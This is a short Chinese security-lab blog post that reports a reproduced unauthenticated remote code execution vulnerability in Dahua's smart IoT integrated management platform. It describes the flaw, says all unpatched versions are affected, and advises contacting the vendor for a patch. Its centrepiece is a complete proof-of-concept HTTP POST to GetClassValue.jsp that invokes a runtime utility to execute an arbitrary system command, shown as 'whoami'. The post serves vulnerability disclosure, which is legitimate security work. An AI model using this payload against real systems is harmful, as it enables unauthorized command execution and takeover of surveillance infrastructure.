 #  【成功复现】大华智能物联综合管理平台远程代码执行漏洞   
奥村燐  弥天安全实验室   2025-01-03 10:50  
  
   
  
网安引领时代，弥天点亮未来 ****  
  
  
  
  
  
****  
  
****  
  
**0x00漏洞描述**  
  
  
  
**大华智能物联综合管理平台 GetClassValue.jsp 接口存在远程代码执行漏洞，未经身份验证的恶意攻击者可以利用该漏洞远程执行任意命令，获取系统权限。**  
  
****  
****  
  
**0x01影响范围**  
  
  
  
**该漏洞影响所有未更新修复补丁的大华智能物联综合管理平台版本。**  
  
****  
  
****  
  
**0x02复现过程**  
  
  
  
**POC**  
```
POST /evo-apigw/admin/API/Developer/GetClassValue.jsp HTTP/1.1
Host: xxxxxxxxxxxxxxxxxx
Content-Type: application/json

{"data": {"clazzName": "com.dahua.admin.util.RuntimeUtil", "methodName": "syncexecReturnInputStream", "fieldName": ["whoami"]}}
```  
  
****  
![](https://mmbiz.qpic.cn/mmbiz_png/MjmKb3ap0hATXxLeDibd4RhjaUH2QRpjnyURIAvkQLic8ogEwSiaU7ibibMRlQYjsNRm1vkbC5p8Ymh8ibUBEgE5dLpA/640?wx_fmt=png&from=appmsg "")  
  
****  
****  
****  
  
**0x03修复方案**  
  
  
  
**为防范该漏洞带来的安全风险，建议受影响的用户立即采取以下措施：**  
  
**官方修复：请尽快联系大华官方获取漏洞解决方案及升级补丁，确保平台安全。**  
  
****  
****  
  
 知识分享完了喜欢别忘了关注我们哦~学海浩茫，予以风动，必降弥天之润！   弥  天安全实验室  
  
  
